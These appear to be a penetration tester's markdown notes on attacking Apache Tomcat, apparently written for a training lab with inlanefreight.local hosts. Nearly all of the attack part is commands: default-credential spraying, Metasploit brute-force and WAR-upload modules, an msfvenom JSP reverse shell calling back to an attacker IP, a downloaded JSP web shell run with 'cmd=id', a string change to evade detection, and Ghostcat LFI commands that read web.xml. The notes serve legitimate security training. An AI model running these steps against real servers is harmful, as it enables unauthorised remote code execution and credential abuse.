 ### Footprinting + Enumeration
```bash
curl -s http://app-dev.inlanefreight.local:8080/docs/ | grep Apache Tomcat
curl -s http://app-dev.inlanefreight.local:8080/docs/ | grep Tomcat 
```

```bash
gobuster dir -u http://adot8.com -w ~/opt/wordlists/directory-list-2.3-medium.txt
 -x txt,html -t 100
```

Tomcat webapps folder structure
```bash
webapps/customapp
├── images
├── index.jsp
├── META-INF
│   └── context.xml
├── status.xsd
└── WEB-INF
    ├── jsp
    |   └── admin.jsp
    └── web.xml
    └── lib
    |    └── jdbc_drivers.jar
    └── classes
        └── AdminServlet.class   
```
The **most important f**ile among these is `WEB-INF/web.xml`, which is known as the deployment descriptor. This file stores information about the routes used by the application and the classes handling these routes. All compiled classes used by the application should be stored in the `WEB-INF/classes` folder. These classes might contain important business logic as well as sensitive information. Any vulnerability in these files can lead to total compromise of the website. The `lib` folder stores the libraries needed by that particular application

The `web.xml `configuration above defines a new servlet named AdminServlet that is mapped to the class `com.inlanefreight.api.AdminServlet.` Java uses the dot notation to create package names, meaning the path on disk for the class defined above would be:

    classes/com/inlanefreight/api/AdminServlet.class

Next, a new servlet mapping is created to map requests to /admin with AdminServlet. This configuration will send any request received for /admin to the AdminServlet.class class for processing. The web.xml descriptor holds a lot of sensitive information and is an important file to check when leveraging a Local File Inclusion (LFI) vulnerability.

The `tomcat-users.xml` file is used to allow or disallow access to the /manager and host-manager admin pages.

```bash
!-- user manager can access only manager section -->
<role rolename="manager-gui" />
<user username="tomcat" password="tomcat" roles="manager-gui" />

<!-- user admin can access manager and admin section both -->
<role rolename="admin-gui" />
<user username="admin" password="admin" roles="manager-gui,admin-gui" />
```

```shell
├── bin
├── conf
│   ├── catalina.policy
│   ├── catalina.properties
│   ├── context.xml
│   ├── tomcat-users.xml
│   ├── tomcat-users.xsd
│   └── web.xml
```
### Exploitation
#### Password spraying
```
tomcat:tomcat
admin:admin
```
#### Login Bruteforcing
```
use auxiliary/scanner/http/tomcat_mgr_login
set stop_on_success true
```
This is another tool that can perform the bruteforcing [Tomcat-Manager-Bruteforce](https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce)
```bash
python3 mgr_brute.py -U http://web01.inlanefreight.local:8180/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
```
#### RCE via WAR File Upload
```bash
use exploit/multi/http/tomcat_mgr_upload
```
**Alternatively**
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war

wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backup.war cmd.jsp 
```
`Browse` to select the .war file and then click on `Deploy`
View that `/backup` is a n application path
```bash
curl http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id
```
###### Obfuscation
Change 
```java
FileOutputStream(f);stream.write(m);o="Uploaded:
```
To
```java
FileOutputStream(f);stream.write(m);o="uPlOaDeD:
```
###### Cleanup
To clean up after ourselves, we can go back to the main Tomcat Manager page and click the `Undeploy` button next to the `backups` application after, of course, noting down the file and upload location for our report, which in our example is `/opt/tomcat/apache-tomcat-10.0.10/webapps`. If we do an `ls` on that directory from our web shell, we'll see the uploaded `backup.war` file and the `backup` directory containing the `cmd.jsp` script and `META-INF` created after the application deploys. Clicking on `Undeploy` will typically remove the uploaded WAR archive and the directory associated with the application.

#### Known Vulnerabilities
##### Ghostcat
Tomcat was found to be vulnerable to an unauthenticated LFI in a semi-recent discovery named [Ghostcat](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1938)

Nmap output
```bash
PORT     STATE SERVICE VERSION
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
8080/tcp open  http    Apache Tomcat 9.0.30
```

The PoC code for the vulnerability can be found [here](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi)
```shell
python2.7 tomcat-ajp.lfi.py app-dev.inlanefreight.local -p 8009 -f WEB-INF/web.xml

python2.7 tomcat-ajp.lfi.py app-dev.inlanefreight.local -p 8009 -f WEB-INF/web.xml 

```